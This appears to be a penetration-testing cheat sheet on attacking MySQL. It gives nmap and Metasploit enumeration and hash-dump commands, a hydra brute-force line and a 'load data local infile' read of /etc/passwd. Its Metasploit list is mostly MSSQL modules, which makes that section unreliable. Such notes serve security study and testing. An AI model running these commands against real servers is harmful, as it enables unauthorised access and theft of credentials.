

# 🟡 MySQL

## :information\_source: <mark style="color:blue;">Introduction</mark>

#### [MySQL](https://www.mysql.com/services/)

The shell ports for MySQL services are:

1. Client-server ( classic MySQL protocol ) TCP 3306
2. Client-server ( X protocol ) TCP 33060
3. Server cluster configuration check port, TCP 33061

## :ballot\_box\_with\_check: <mark style="color:blue;">Checklist</mark>

* [ ] Try to query the DB if you have creds
* [ ] Login brute force
* [ ] Check for MySQL arbitrary file read
* [ ] Check for CVEs

## <mark style="color:red;">Enumeration</mark>

```
nmap -sV -p 3306,33060,33061 <IP>
msf> use auxiliary/scanner/mysql/mysql_version
msf> use auxiliary/scanner/mysql/mysql_authbypass_hashdump
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>
auxiliary/scanner/mysql/mysql_file_enum
```

## <mark style="color:red;">Query ( with credentials )</mark> <a href="#basics" id="basics"></a>

### <mark style="color:orange;">Manual</mark>

```bash
# Try connection from outside
mysql --host <IP> -u root -proot
        
# Connection from the target machine
mysql -u root -p root database
```

```bash
show databases;
use database_name;
show tables;
describe table_name;
select host, user, password from mysql.user;
```



### <mark style="color:orange;">Automated</mark>

#### nmap :

```bash
# Audits MySQL database server security configuration
mysql-audit

# Attempts to list all databases on a MySQL server. (creds required)
mysql-databases

#Dumps the password hashes from an MySQL server in a format suitable (creds required)
mysql-dump-hashes

# Checks for MySQL servers with an empty password for root or anonymous.
mysql-empty-password

# Performs valid-user enumeration against MySQL server using a bug
mysql-enum

# Connects to a MySQL server and prints information such as the protocol and version numbers, thread ID, status, capabilities, and the password salt.
mysql-info

# Runs a query against a MySQL database and returns the results as a table. (creds required)
mysql-query

# Attempts to list all users on a MySQL server.
mysql-users

# Attempts to show all variables on a MySQL server.
mysql-variables

# Attempts to bypass authentication in MySQL and MariaDB servers by exploiting CVE2012-2122. If its vulnerable, it will also attempt to dump the MySQL usernames and password hashes. 
mysql-vuln-cve2012-2122
```

#### Metasploit :

```
auxiliary/gather/lansweeper_collector                            Lansweeper Credential Collector
auxiliary/scanner/mssql/mssql_hashdump                           MSSQL Password Hashdump
auxiliary/scanner/mssql/mssql_ping                               MSSQL Ping Utility
auxiliary/scanner/mssql/mssql_schemadump                         MSSQL Schema Dump
auxiliary/admin/mssql/mssql_exec                                 Microsoft SQL Server Command Execution
auxiliary/admin/mssql/mssql_enum                                 Microsoft SQL Server Configuration Enumerator
auxiliary/admin/mssql/mssql_escalate_dbowner                     Microsoft SQL Server Escalate Db_Owner
auxiliary/admin/mssql/mssql_escalate_execute_as                  Microsoft SQL Server Escalate EXECUTE AS
auxiliary/admin/mssql/mssql_findandsampledata                    Microsoft SQL Server Find and Sample Data
auxiliary/admin/mssql/mssql_sql                                  Microsoft SQL Server Generic Query
auxiliary/admin/mssql/mssql_sql_file                             Microsoft SQL Server Generic Query from File
auxiliary/admin/mssql/mssql_idf                                  Microsoft SQL Server Interesting Data Finder
auxiliary/admin/mssql/mssql_ntlm_stealer                         Microsoft SQL Server NTLM Stealer
auxiliary/admin/mssql/mssql_escalate_dbowner_sqli                Microsoft SQL Server SQLi Escalate Db_Owner
auxiliary/admin/mssql/mssql_escalate_execute_as_sqli             Microsoft SQL Server SQLi Escalate Execute AS
auxiliary/admin/mssql/mssql_ntlm_stealer_sqli                    Microsoft SQL Server SQLi NTLM Stealer
auxiliary/admin/mssql/mssql_enum_domain_accounts_sqli            Microsoft SQL Server SQLi SUSER_SNAME Windows Domain Account Enumeration
auxiliary/admin/mssql/mssql_enum_sql_logins                      Microsoft SQL Server SUSER_SNAME SQL Logins Enumeration
auxiliary/admin/mssql/mssql_enum_domain_accounts                 Microsoft SQL Server SUSER_SNAME Windows Domain Account Enumeration
auxiliary/analyze/crack_databases                                Password Cracker: Databases
```

## <mark style="color:red;">Login Brute Force</mark>

```
 auxiliary/scanner/mssql/mssql_login 
 nmap --script mysql-brute <IP>
 hydra -L usernames.txt -P pass.txt <IP> mysql
```

## <mark style="color:red;">MySQL Arbitrary File Read</mark>

Load data infile is a very special syntax. Friends who know about injection or often play CTF may be familiar with this syntax. In CTF, we often encounter situations where there is no way to load\_file to read the file. At this time, load data infile is the only possible way to read files. Generally our statement is this:

```
load data infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';
```

The mysql server will read the server’s / etc / passwd and insert the data into the table according to `'\n'`. But now this statement also requires you to have FILE permissions, and non-local loaded statements are also restricted by `secure_file_priv`.

```
mysql> load data infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';

ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
```

If we add a keyword local

```
mysql> load data local infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';

Query OK, 11 rows affected, 11 warnings (0.01 sec)
Records: 11  Deleted: 0  Skipped: 0  Warnings: 11
```

The client’s file will be read and send to the server. The execution result of the above statement is as follows.



#### the PoC can be found here:



an overview of the attack


